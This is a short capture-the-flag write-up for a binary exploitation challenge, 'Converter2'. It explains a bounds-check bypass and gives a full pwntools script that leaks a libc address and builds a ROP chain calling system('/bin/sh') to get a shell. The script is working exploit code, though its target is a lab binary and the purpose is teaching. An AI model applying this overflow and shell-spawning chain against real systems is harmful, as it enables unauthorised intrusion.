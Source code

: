 # Converter2

The code is similar to the previous one but here there is a `i <= 0` check, but we can still change `i` to be a large number and get a libc leak. Since there is no canary, we can simply use rop to get a shell.

```python
from pwn import *
context.arch = "amd64"

io = process("./chal")
# io = remote("amt.rs", 31631)
elf = ELF("./chal")
libc = ELF("./libc.so.6")
rop = ROP(elf)

if args.GDB:
	gdbscript="""
	b *main+179
	c
	"""
	gdb.attach(io, gdbscript=gdbscript)

payload = b"A"*28
payload += p32(205)
payload += p64(0)
payload += p64(rop.find_gadget(["ret"])[0])
payload += p64(elf.sym["main"])
io.sendlineafter(b"hex:", payload)

io.recvline()
leak = int(io.recv(12), 16)
info(f"libc leak: {hex(leak)}")
libc.address = leak - 0x27245
info(f"libc base: {hex(libc.address)}")

rop = ROP(libc)
payload = b"B"*28
payload += p32(50)
payload += p64(0)
payload += p64(rop.find_gadget(["pop rdi","ret"])[0])
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(rop.find_gadget(["ret"])[0])
payload += p64(libc.sym["system"])

io.sendlineafter(b"hex:", payload)
io.clean()

io.interactive()
```